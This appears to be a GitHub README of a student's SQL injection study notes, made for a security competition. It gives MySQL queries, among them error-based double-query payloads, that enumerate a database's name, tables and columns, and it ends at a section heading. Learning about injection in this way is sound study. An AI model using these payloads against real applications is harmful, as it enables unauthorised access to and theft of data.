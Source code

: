 # SqlInjection

## 前言

我在大二上学期初的时候随缘参加了一个网络安全竞赛，在增长自己知识同时学习的网络安全之SQL注入，学习笔记word文档在硬盘里停留了大概半年之久，于是在2019年4月搬到github上面。

2019.4.16

## SQL注入相关知识

### 学习内容

学习视频是来自Youtube的博主Security Auditor的视频。[传送门](<https://www.youtube.com/watch?v=du-jkS6-sbo&list=PLkiAz1NPnw8qEgzS7cgVMKavvOAdogsro>)

博主网站  [here](http://dumy2dummies.blogspot.com/)

当时笔记使用蹩脚的乡村英语写的(嘤)

### Head

SQL-Injection-Notes

YangZhe

2018.10.6

### Basic injection

```mysql
select table_name from information_schema.tables where table_schema=database() limit 2,1;
select column_name from information_schema.tables where table_name=database() limit 2,1;
```

**1.** **How to know the database name:**

```mysql
select count(*),concat(0x3a,database(),0x3a,floor(rand()*3))a from information_schema.tables group by a;
```

**2.** **How to know the tables name:**

```mysql
select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit n,1),0x3a,floor(rand()*3))a from information_schema.tables group by a;
```

**3.** **How to know the columns nane:**

```mysql
select count(*),concat((select column_name from information_schema.column where table_name=’users’ limit n,1),0x3a,floor(rand()*3))a from information_schema.tables group by a;
```

### double query injection
